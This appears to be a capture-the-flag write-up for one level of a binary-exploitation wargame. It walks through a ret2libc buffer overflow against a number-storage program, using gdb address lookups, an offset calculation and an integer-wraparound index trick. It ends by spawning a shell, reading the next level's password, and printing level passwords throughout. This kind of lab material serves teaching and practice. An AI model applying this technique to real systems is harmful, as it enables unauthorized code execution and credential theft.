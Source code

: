 # Level 07
*password : GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8*

## Analyze

```
scp -P 4242 level07@192.168.56.109:level07 binary/
```

## Buffer overflow

**objective** : use the program to fill the buffer and execute `/bin/sh`

```
(gdb) find  0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) info funct system
...
0xf7e6aed0  system
...
(gdb) info funct exit
...
0xf7e5eb70  exit
...
```
- convert addresses to unsigned int
   - `system` : 0xf7e6aed0 = 4159090384\
   - `exit` : 0xf7e5eb70 = 4159040368\
   - `/bin/sh` : 0xf7f897ec = 4160264172
---
### Comupute offset

```
(gdb) b *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
...
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
(gdb) x/x $eax
0xffffd544:     0x00000000
```
- `eip` address : 0xffffd70c
- `buffer` address : 0xffffd544

`0xffffd70c - 0xffffd544 = 1c8` (456 in decimal)

eip offset found : 456

---

```
buffer[index * 4] = number;
```
- `system` at index 114 (456 / 4)
- `exit` at index 115
- `/bin/sh` at index 116\

index must not be a multiple of 3, but 114 % 3 = 0.\
max unsigned int : 4294967296\
4294967296 / 4 + 114 = 1073741938\
=> (unsigned int)1073741938 = 114\
1073741938 % 3 = 1\
so `system` at index 1073741938

```
$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115       
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
